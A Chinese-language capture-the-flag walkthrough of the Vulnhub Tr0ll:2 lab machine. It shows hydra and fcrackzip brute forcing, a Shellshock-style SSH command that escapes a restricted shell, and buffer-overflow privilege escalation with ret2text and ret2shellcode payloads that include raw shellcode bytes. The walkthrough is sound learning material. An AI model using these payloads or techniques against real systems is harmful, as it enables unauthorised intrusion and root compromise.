






Vulnhub靶机渗透-Tr0ll:2
0x01 Scan Host
主机发现:

emm，web和tr0ll:1一样，先进行更详细的扫描：
0x02 Web Service

告诉我们这里啥都没有，扫一下目录:
有几张图片。
0x03 FTP Service
既然web没什么突破口，那么我们还是从ftp试试看，考虑生成个社工字典，根据WEB给出的Author以及Editor:
在字典的每一项后面加一个特殊字符，建议选n。然后用hydra爆一下:
Bingo~登陆看一下:
是个有密码的压缩包，简单地爆了一下没出。
想了一下，robots似乎也有node的字眼，再结合有点像隐写，并且:
有提示，cat每个图片，最终发现了东西：
提示深入y0ur_self来找到答案，FTP没有，WEB找到了answer:
全部都是base64，写个脚本跑一下，这里不能复制，wget即可:
循环读取每行并做base64解码，发现跑出来的应该是个字典:
这里提供两种爆破zip的方式，一种是john一种是fcrackzip。
先说john：
zip2john lmao.zip > hash.txtjohn hash.txt
这种没成功，接下来是frackzip利用字典:

fcrackzip -u -D -p password.txt lmao.zip
成功找到密码。
本来以为是个ELF，结果不是:
root@NightsWatch:~/Desktop/tr0ll# file noobnoob: PEM RSA private key

0x04 SSH Service
猜测是不是SSH登陆密钥:
看到提示运行的是/usr/bin/xauth，并不是/bin/bash，这里有几种方法:
ssh -i noob noob@192.168.8.126 -t "/bin/sh"ssh -i noob noob@192.168.8.126 -t "bash --noprofile"ssh -i noob noob@192.168.8.126 -t "() { :; }; /bin/bash"
在这里，最后一种方法是有效的:
0x05 Privilege Escalation
noob@Tr0ll2:~$ uname -aLinux Tr0ll2 3.2.0-29-generic-pae #46-Ubuntu SMP Fri Jul 27 17:25:43 UTC 2012 i686 i686 i386 GNU/Linux

先看SUID吧，看到下面有些奇怪的东西:
挨个的来看一下:
???reboot???，看来不能瞎运行啊…这里发现有gdb，可以分析一下再选择运行，大家要注意，实际情况中也是，不能乱运行程序。
Ret2Text With Environment
上图为r00t1，没有交互不像是存在溢出或者格式化字符串的情况。
现在看一下r00t2:

其中strcpy以及printf可能存在溢出和格式化字符串漏洞
r003:

与r00t1同，调用了system，但参数明显不是/bin/sh，有诈…
既然大概率r00t2存在漏洞，那我们着重看一下，因为自带的gdb并没有我常用的插件，所以这里借助msf来完成测试溢出的offset:
cd /usr/share/metasploit-framework/tools/exploit/./pattern_create.rb -l 400./pattern_offset.rb -q 6a413969

(gdb) p system$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
有system现在我们可以输入/bin/sh，但问题是地址在哪？可以调试得出这里介绍另一种简单的方法:
export MyAddress=//////////////////////bin/sh用如下c代码找到地址:
#include<unistd.h>void main(){printf("MyAddress address 0x%lx\n", getenv("MyAddress"));return 0;}noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door2$ ./../../../tmp/get MyAddress address 0xbfffffb7
这样system和sh地址都有了，构造简单ROP:
system = 0x8048370sh = 0xbffffef7 qpayload = 'A' * 268 + p32(system) + 'dead' + p32(sh)
但是目标肯定没有pwntools，我们手工:
./r00t $(python -c 'print "A" * 268 + "\x60\xb0\xe6\xb7" + "BBBB" + "\xbf\xff\xff\xe3"')
上面的payload中sh字符串的地址有一点点误差，多试几次即可:
./r00t $(python -c 'print "A" * 268 + "\x60\xb0\xe6\xb7" + "BBBB" + "\xc7\xff\xff\xbf"')
这就是利用环境变量中的字符串完成ROP，究其原因，是因为系统并没有开启ASLR保护，下面介绍的方法也是没有ASLR保护才能得以实现。若开了ASLR其实我们也可以用传统的ret2libc来完成攻击。
Ret2Shellcode
没什么东西，看r00t2:
明显栈溢出。
这里介绍shellcode来getshell，我们输入shellcode后，需要控制RIP跳到shellcode的地址，那shellcode地址是什么呢？(这里同样可以把shellcode放到环境变量中)
我们先随机生成268的字符串，然后ret为AAAA之后的为BBBB来观察一下内存布局:
很明显，我们的BBBB出现在了ESP的位置上，那么把ret地址覆盖为当时的ESP就行了，而系统并没有开ASLR，只要查看一个ESP寄存器即可(在目标机器上):
同样的payload，查看esp寄存器地址发现确实是BBBB:
./r00t $(python -c 'print "A" * 268 + "\xd0\xfa\xff\xbf" + "\xb4\xbb\x46\x02\xd4\x35\x05\xf8\xbf\x4a\x1d\xb1\x93\xa8\x24\x3f\x91\x27\x2f\xb2\x41\x42\x34\x77\x13\xfd\xb0\x9b\xb6\x99\x4f\x0c\x3d\x66\x3c\xba\xb9\x43\xb5\x8d\xb7\x14\x96\x97\xb3\x37\x49\xf9\x4b\x40\xb8\xd9\xf7\xa2\xd9\xdd\xc7\xd9\x74\x24\xf4\x5d\x31\xc9\xb1\x0b\x31\x45\x15\x03\x45\x15\x83\xc5\x04\xe2\x2c\x9d\xa9\x81\x57\x30\xc8\x59\x4a\xd6\x9d\x7d\xfc\x37\xed\xe9\xfc\x2f\x3e\x88\x95\xc1\xc9\xaf\x37\xf6\xc2\x2f\xb7\x06\xfc\x4d\xde\x68\x2d\xe1\x48\x75\x66\x56\x01\x94\x45\xd8"')
GDB中拿到shell了但不是root权限(这是肯定的)，但是外面会报错。没有找到原因，但我们的基本思路是正确的。
0x06 Summary
信息收集在本次渗透中仍有着极大的作用，再一个是终于碰到缓冲区溢出了。其中缓冲区溢出的原理及基本思想这里一言半语的也说不清，有PWN基础的应该都可以看得懂。需要注意的是，在本地调试我们只是我为了借助GDB的插件更清楚漏洞利用，而涉及到地址等内容的东西还是要上目标机来看。
还有一个是，虽然系统开启了ASLR，但是发现r00t这个程序会不定期删除重新生成，地址自然也会改变，发现问题时记得要多调试。

原创投稿作者：Railgun
作者博客：www.pwn4fun.com